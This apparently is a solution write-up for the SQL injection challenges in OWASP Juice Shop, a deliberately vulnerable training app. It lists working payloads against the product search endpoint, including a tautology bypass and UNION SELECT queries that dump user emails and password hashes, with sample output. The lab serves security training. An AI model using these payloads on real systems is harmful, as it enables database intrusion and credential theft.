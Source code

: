 # Sql Injection Solutions

Use this to validate that all products can be returned, including deleted products.
```
GET /rest/products/search?q=dud'))OR+1+=+1--
```

Verifies a UNION clause can be used to exfiltrate data.
```
GET /rest/products/search?q=dud'))+UNION--
```

Note that the responses from Juice Shop have nine values.

``` json
{
  "status": "success",
  "data": [
    {
      "id": 9,
      "name": "OWASP SSL Advanced Forensic Tool (O-Saft)",
      "description": "O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://www.owasp.org/index.php/O-Saft\" target=\"_blank\">More...</a>",
      "price": 0.01,
      "deluxePrice": 0.01,
      "image": "orange_juice.jpg",
      "createdAt": "2024-03-21 00:39:44.404 +00:00",
      "updatedAt": "2024-03-21 00:39:44.404 +00:00",
      "deletedAt": null
    }
  ]
}
```

Union the request with the Users table and columns likely to exist in a Users table.

```
GET /rest/products/search?q=test'))%20UNION%20SELECT%20id,email,password,username,'5','6','7','8','9'%20FROM%20Users--
```

This returns user accounts.

``` json
{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": "admin@juice-sh.op",
      "description": "0192023a7bbd73250516f069df18b500",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 2,
      "name": "jim@juice-sh.op",
      "description": "e541ca7ecf72b8d1286474fc613e5e45",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 3,
      "name": "bender@juice-sh.op",
      "description": "0c36e517e3fa95aabf1bbffc6744a4ef",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 4,
      "name": "bjoern.kimminich@gmail.com",
      "description": "6edd9d726cbdc873c539e41ae8757b8c",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    }
  ]
}
```
Guessing other columns yields success.

```
GET /rest/products/search?q=juice'))%20UNION%20SELECT%20id,email,password,username,createdAt,updatedAt,isActive,role,'9'%20FROM%20Users--
```